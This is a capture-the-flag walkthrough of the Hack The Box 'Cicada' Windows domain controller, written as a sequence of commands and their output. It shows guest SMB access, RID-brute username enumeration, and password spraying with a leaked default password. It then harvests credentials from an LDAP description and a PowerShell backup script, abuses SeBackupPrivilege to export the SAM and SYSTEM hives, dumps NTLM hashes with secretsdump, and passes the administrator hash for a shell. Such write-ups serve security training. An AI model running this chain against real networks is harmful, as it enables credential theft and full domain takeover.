

Starting off we'll generate our host files

```
netexec smb 10.129.237.66 --generate-hosts-file hosts
cat hosts /etc/hosts | sponge /etc/hosts
```

After running our nmap

```
nmap -sV -sC -Pn 10.129.237.66
```

We're presented with what we'd expect from a Windows box

```
Starting Nmap 7.97 ( https://nmap.org ) at 2025-07-07 18:54 -0400
Nmap scan report for 10.129.237.66
Host is up (0.098s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-08 05:54:46Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-08T05:55:31
|_  start_date: N/A
|_clock-skew: 6h59m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.60 seconds

```

So let's begin by checking smbclient as guest 

```
~/h/cicada > smbclient -L //CICADA-DC.cicada.htb/        7s 19:10:11
Password for [WORKGROUP\jam3z]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        DEV             Disk
        HR              Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share
```

Going straight for HR share.

```
~/h/cicada > smbclient //CICADA-DC.cicada.htb/HR -U 'guest'
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 08:29:09 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 13:31:48 2024
```

Upon downloading Notice of HR.txt we're presented with

```
Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

So since we don't know our target we'll have to run a rid cycle against SMB and attempt to bruteforce a username/password combo

```
~/h/cicada > nxc smb 10.129.237.66 -u 'guest' -p '' --rid-brute
SMB         10.129.237.66   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.237.66   445    CICADA-DC        [+] cicada.htb\guest:
SMB         10.129.237.66   445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.237.66   445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.129.237.66   445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.129.237.66   445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.129.237.66   445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.129.237.66   445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.129.237.66   445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.129.237.66   445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.129.237.66   445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.129.237.66   445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.129.237.66   445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.129.237.66   445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.129.237.66   445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.237.66   445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.237.66   445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.237.66   445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.129.237.66   445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.129.237.66   445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.237.66   445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.237.66   445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.237.66   445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.237.66   445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.129.237.66   445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.129.237.66   445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.237.66   445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.129.237.66   445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.129.237.66   445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.129.237.66   445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.129.237.66   445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.129.237.66   445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.129.237.66   445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

Giving a shoutout to 0xdf for this one, let's clean this up a bit to get a better users list.

```
~/hackthebox/cicada > netexec smb CICADA-DC -u guest -p '' --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 | tee users
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```


From here we'll create a list and find out who the password belongs to.

```
~/hackthebox/cicada > netexec smb CICADA-DC -u users -p 'Cicada$M6Corpb*@Lp#nZp!8'                               19:35:45
SMB         10.129.237.66   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.237.66   445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.237.66   445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.237.66   445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.237.66   445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.237.66   445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.237.66   445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.237.66   445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

Now let's see what michael.wrightson has access to. Initial SMB came up with same permissions as guest so next up: ldap. Notably tried winrm with no permissions.

```
~/hackthebox/cicada > nxc ldap CICADA-DC -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'                INT 19:42:50
LDAP        10.129.237.66   389    CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb) (signing:None) (channel binding:Never)
LDAP        10.129.237.66   389    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

Next best step would be to query ldap users.

```
~/hackthebox/cicada > nxc ldap CICADA-DC -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'                INT 19:42:50
LDAP        10.129.237.66   389    CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb) (signing:None) (channel binding:Never)
LDAP        10.129.237.66   389    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
~/hackthebox/cicada > nxc ldap CICADA-DC -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users         3s 19:45:43
LDAP        10.129.237.66   389    CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb) (signing:None) (channel binding:Never)
LDAP        10.129.237.66   389    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
LDAP        10.129.237.66   389    CICADA-DC        [*] Enumerated 8 domain users: cicada.htb
LDAP        10.129.237.66   389    CICADA-DC        -Username-                    -Last PW Set-       -BadPW-  -Description-
LDAP        10.129.237.66   389    CICADA-DC        Administrator                 2024-08-26 16:08:03 1        Built-in account for administering the computer/domain
LDAP        10.129.237.66   389    CICADA-DC        Guest                         2024-08-28 13:26:56 0        Built-in account for guest access to the computer/domain
LDAP        10.129.237.66   389    CICADA-DC        krbtgt                        2024-03-14 07:14:10 1        Key Distribution Center Service Account
LDAP        10.129.237.66   389    CICADA-DC        john.smoulder                 2024-03-14 08:17:29 1
LDAP        10.129.237.66   389    CICADA-DC        sarah.dantelia                2024-03-14 08:17:29 1
LDAP        10.129.237.66   389    CICADA-DC        michael.wrightson             2024-03-14 08:17:29 0
LDAP        10.129.237.66   389    CICADA-DC        david.orelious                2024-03-14 08:17:29 0        Just in case I forget my password is aRt$Lp#7t*VQ!3
LDAP        10.129.237.66   389    CICADA-DC        emily.oscars                  2024-08-22 17:20:17 0
```

We now have access to david.orelious so let's see what we have access to. Immediately went for winrm but no luck. However... 

```
~/hackthebox/cicada > nxc smb 10.129.237.66 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares                 INT 19:50:43
SMB         10.129.237.66   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.237.66   445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3
SMB         10.129.237.66   445    CICADA-DC        [*] Enumerated shares
SMB         10.129.237.66   445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.237.66   445    CICADA-DC        -----           -----------     ------
SMB         10.129.237.66   445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.237.66   445    CICADA-DC        C$                              Default share
SMB         10.129.237.66   445    CICADA-DC        DEV             READ
SMB         10.129.237.66   445    CICADA-DC        HR              READ
SMB         10.129.237.66   445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.237.66   445    CICADA-DC        NETLOGON        READ            Logon server share
SMB         10.129.237.66   445    CICADA-DC        SYSVOL          READ            Logon server share
```

Access to DEV share. We're presented with a single PS1 script.

```
~/hackthebox/cicada > smbclient //CICADA-DC.cicada.htb/DEV -U 'david.orelious'                               11s 19:51:17
Password for [WORKGROUP\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 08:31:39 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 13:28:22 2024

                4168447 blocks of size 4096. 478391 blocks available
smb: \> mget Backup_script.ps1
Get file Backup_script.ps1? y
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (1.3 KiloBytes/sec) (average 1.3 KiloBytes/sec)
```

```
~/hackthebox/cicada > cat Backup_script.ps1                                                                      19:53:02

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

Checking emily.oscar's credentials we find:

```
~/hackthebox/cicada > nxc winrm 10.129.237.66 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'                            19:53:06
WINRM       10.129.237.66   5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.129.237.66   5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)
```

Let's bust out the evil-winrm and hopefully get our user flag.

```
~/h/cicada > evil-winrm -i 10.129.237.66 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
/home/jam3z/.local/share/gem/ruby/3.4.0/gems/winrm-2.3.9/lib/winrm/psrp/fragment.rb:35: warning: redefining 'object_id' may cause serious problems
/home/jam3z/.local/share/gem/ruby/3.4.0/gems/winrm-2.3.9/lib/winrm/psrp/message_fragmenter.rb:29: warning: redefining 'object_id' may cause serious problems

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> cd ..
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA> cd Desktop
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> dir


    Directory: C:\Users\emily.oscars.CICADA\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---          7/7/2025  10:49 PM             34 user.txt


*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> cat user.txt
7eb0ff7a60395d537a802b494b0474a7
```

So after getting user first thing I wanted to look for were what privileges I had.

```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

So immediately we see we have SeBackupPrivilege. Immediate abuse for sam/system. Let's check out our command set. Doing the dirtiest way possible although there are much easier ways to do this. The TL;DR is we're grabbing ntds.dit data that will get us our administrator hash.

```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> reg save hklm\sam sam
The operation completed successfully.
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> reg save hklm\system system
The operation completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> dir


Directory: C:\Users\emily.oscars.CICADA\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          7/8/2025   1:19 AM          49152 sam
-a----          7/8/2025   1:20 AM       18558976 system


*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download sam

Info: Downloading C:\Users\emily.oscars.CICADA\Documents\sam to sam

Info: Download successful!
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download system
```

Now that we have both files on our attacker machine we can do a secretsdump.py, get our admin hash, pop that baddy into an evil-winrm session and get our flag!

```
~/hackthebox/cicada > secretsdump.py -sam sam -system system LOCAL                        21:29:42
/home/jam3z/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250701.160936.2e87ade - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up...
```

```
~/hackthebox/cicada > evil-winrm -i 10.129.237.66 -u 'administrator' -H 2b87e7c93a3e8a0ea4a581937016f341
/home/jam3z/.local/share/gem/ruby/3.4.0/gems/winrm-2.3.9/lib/winrm/psrp/fragment.rb:35: warning: redefining 'object_id' may cause serious problems
/home/jam3z/.local/share/gem/ruby/3.4.0/gems/winrm-2.3.9/lib/winrm/psrp/message_fragmenter.rb:29: warning: redefining 'object_id' may cause serious problems

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
727e56c596332c1cebdd61925e218272
```



